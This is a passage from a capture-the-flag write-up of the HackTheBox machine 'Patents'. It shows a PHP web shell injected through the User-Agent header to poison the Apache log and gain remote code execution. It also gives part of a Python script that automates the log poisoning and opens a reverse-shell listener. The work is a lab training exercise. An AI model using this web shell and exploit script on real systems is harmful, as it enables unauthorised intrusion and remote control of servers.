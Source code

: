 ```php
User-Agent: <?php system($_REQUEST['cmd']); ?>
```

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-10-24-HackTheBox-Patents/2021-10-24-HackTheBox-Patents%2011:10:46.png)

And we have RCE!

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-10-24-HackTheBox-Patents/2021-10-24-HackTheBox-Patents%2011:11:25.png)

And we have reverse shell!

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-10-24-HackTheBox-Patents/2021-10-24-HackTheBox-Patents%2012:39:09.png)

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-10-24-HackTheBox-Patents/2021-10-24-HackTheBox-Patents%2012:39:17.png)

And now, let's automate it!

Here it is

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-10-24-HackTheBox-Patents/2021-10-24-HackTheBox-Patents%2012:53:40.png)

www-data_rev.py

```py
#!/usr/bin/python3
# Author: 0x4rt3mis
# www-data Auto Reverse Shell - Patents - HackTheBox

import argparse
import requests
import sys
import base64
import urllib.parse
import socket, telnetlib
from threading import Thread

'''Setting up something important'''
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
r = requests.session()

'''Here come the Functions'''
# Set the handler
def handler(lport,target):
    print("[+] Starting handler on %s [+]" %lport) 
    t = telnetlib.Telnet()
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.bind(('0.0.0.0',lport))
    s.listen(1)
    conn, addr = s.accept()
    print("[+] Connection from %s [+]" %target) 
    t.sock = conn
    print("[+] Shell'd [+]")
    t.interact()

# Function to poison the apache log
def poisonLOG(rhost):
    print("[+] Let's Poison the LOG !!! [+]")
    url = "http://%s:80/convert.php" %rhost
    headers = {"User-Agent": "<?php system($_REQUEST['cmd']); ?>", "Content-Type": "multipart/form-data; boundary=aaa"}
    data = "--aaa\r\nContent-Disposition: form-data; name=\"userfile\"; filename=\"xee.doc\"\r\nContent-Type: application/vnd.openxmlformats-officedocument.wordprocessingml.document\r\n\r\nPK\x03\x04\r\n\r\n--aaa\r\nContent-Disposition: form-data; name=\"submit\"\r\n\r\nGenerate pdf\r\n--dc7b6d9099c45960b210c01f3b72bebb--\r\n"
    r.post(url, headers=headers, data=data, proxies=proxies)
```